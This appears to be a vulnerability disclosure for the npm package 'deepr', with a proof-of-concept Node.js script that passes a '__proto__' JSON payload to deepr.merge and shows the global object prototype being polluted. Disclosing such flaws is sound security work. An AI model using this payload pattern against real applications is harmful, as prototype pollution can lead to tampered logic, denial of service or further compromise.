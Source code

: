 # Description

`deepr` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var deepr = require("deepr")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
deepr.merge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i deepr # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
